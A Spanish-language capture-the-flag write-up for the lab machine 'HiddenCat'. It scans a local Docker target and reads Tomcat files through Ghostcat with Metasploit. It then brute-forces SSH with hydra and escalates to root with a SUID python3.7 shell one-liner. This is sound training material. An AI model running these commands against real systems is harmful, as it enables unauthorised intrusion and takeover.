 # **Máquina: HiddenCat**

### **Dificultad:** Fácil

### 📝 **Descripción:**

HiddenCat es una máquina diseñada para poner a prueba habilidades básicas de reconocimiento, explotación de servicios vulnerables y escalada de privilegios. Utiliza tecnologías comunes como Apache Tomcat y está basada en Linux.

### 🎯 **Objetivo:**

Obtener acceso inicial a través de un servicio vulnerable y escalar privilegios hasta obtener acceso como root.

![Logo](Imágenes/2025-05-17_13-08.png)

---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `hiddencat.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip hiddencat.zip
sudo bash auto_deploy.sh hiddencat.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **8009/tcp** – AJP13
* **8080/tcp** – HTTP (Apache Tomcat)

![Puertos](Imágenes/Capturas_2.png)

Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,8009,8080 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Reconocimiento del servicio web**

Accedemos al servicio en el puerto 8080 (`http://172.17.0.3:8080/`) y observamos que se trata de un servidor **Apache Tomcat/9.0.30**.

Intentamos buscar vulnerabilidades en `searchsploit`, pero ninguna parecía aplicable. Sin embargo, investigando en línea encontramos la vulnerabilidad **Ghostcat (CVE-2020-1938)**, que afecta el conector AJP (puerto 8009).

Referencia: [Exploit-DB 49039](https://www.exploit-db.com/exploits/49039)

![pagina](Imágenes/Capturas_4.png)
![version](Imágenes/Capturas_5.png)

---

## 🧰 **Explotación de Ghostcat con Metasploit**

Para explotar Ghostcat, copiamos el código del exploit y lo colocamos en la ruta personalizada de Metasploit:

```bash
mkdir -p ~/.msf4/modules/auxiliary/scanner/http/
nano ~/.msf4/modules/auxiliary/scanner/http/ghostcat.rb
```

Luego, iniciamos `msfconsole`, recargamos los módulos y ejecutamos el exploit:

```bash
msfconsole
reload_all
use auxiliary/scanner/http/ghostcat
```

Configuramos las siguientes opciones:

```
set RHOSTS 172.17.0.3
set RPORT 8009
set FILEPATH WEB-INF/web.xml
run
```

![inicio](Imágenes/Capturas_6.png)

La explotación fue exitosa y se obtuvo el archivo `WEB-INF/web.xml`, donde encontramos un usuario potencial: **jerry**.

![usuario](Imágenes/Capturas_8.png)

> 🔎 **Nota**:
> El parámetro `FILEPATH` especifica el archivo que se desea leer en el servidor remoto. Aprovecha el conector AJP mal configurado (en el puerto 8009), permitiendo leer archivos sensibles fuera del contexto HTTP normal.

---

## 🔐 **Fuerza bruta SSH**

Con el usuario `jerry` identificado, usamos `hydra` para realizar un ataque de fuerza bruta al servicio SSH (puerto 22):

```bash
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4
```

Credenciales obtenidas:

* **Usuario:** jerry
* **Contraseña:** chocolate

Con estas credenciales, accedemos exitosamente por SSH:

```bash
ssh jerry@172.17.0.3
```

![ssh](Imágenes/Capturas_9.png)

---

## 🧗 **Escalada de privilegios**

Dentro del sistema, buscamos archivos con el bit SUID activo:

```bash
find / -perm -4000 2>/dev/null
```

Descubrimos que `python3.7` tiene el bit SUID, lo que permite ejecutar código con privilegios elevados.

Ejecutamos el siguiente comando para obtener una shell como root:

```bash
/usr/bin/./python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Verificamos con `whoami` y confirmamos el acceso como **root**.

![ssh](Imágenes/Capturas_10.png)

---

✅ **Resumen de escalada:**

Se identificó `python3.7` con permisos SUID, lo que permitió ejecutar código como root. Al invocar una shell con privilegios usando Python, se logró acceso como usuario root y se completó la escalada de privilegios.

---
